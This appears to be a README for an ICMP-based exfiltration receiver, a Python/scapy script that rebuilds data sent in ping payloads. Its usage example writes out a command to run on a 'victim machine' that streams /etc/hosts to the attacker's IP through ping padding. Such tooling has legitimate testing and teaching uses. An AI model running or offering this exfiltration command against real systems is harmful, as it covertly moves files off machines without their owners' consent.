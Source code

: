 # ICMP_Inspector

**ICMP_Inspector** is a lightweight Python script designed to capture and analyze incoming ICMP packets on the `eth0` interface designed specifically to extract hidden data sent via the ICMP protocol.

> [!NOTE]  
> **Have in mind that content can be exfiltrated from a machine via "sending pings" to other machines because icmp protocol tough ping can send up to 4bytes of data. This program specializes in retrieving this info and show it like it was in the host before the exfil.**

## Features
- Captures incoming ICMP packets in real-time.
- Filters packets specifically from the `eth0` interface.
- Parses the data to get the most accurate standart output from the machine.
- Lightweight and easy to use, suitable for quick testing or debugging.

## Requirements
- Python 3.x
- Libraries: `scapy`

## Installation
1. Clone this repository:
   ```bash
   git clone https://github.com/zer0plusone/ICMP_Inspector.git
   cd ICMPI_nspector
   ```
2. Install the required dependencies:
   ```bash
   pip install scapy
   ```

## Usage
Run the script with root privileges to capture packets:
```bash
sudo python3 ICMP_dataExfilter.py
```

### Example of usage

Lets say you tried to send the archive /etc/hosts from a linux machine to your own machine.

First of all you will have to execute the next comand in the victim machine:
```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line $YOUR_IP; done
```

The ICMP protocol will send the data in packets of 4 bytes to your machine, you will have to have the script running in your terminal by the moment you press enter in the other command. The final result and what you will see in your terminal will be the full content of the archive as it should look in the victim machine.

## Disclaimer
1. Use this tool responsibly and only on networks where you have explicit permission.

2. Unauthorized packet inspection may violate laws or regulations in your jurisdiction.

3. THE DEVELOPER OF THIS PROGRAM ISN'T RESPONSIBLE FOR THE USE THIRD PARTY USERS GIVE TO THIS REPOSITORY.

## License
This project is licensed under the MIT License. See the `LICENSE` file for details.

## Contributions
Contributions are welcome! Fork the repository, make your changes, and submit a pull request for review.
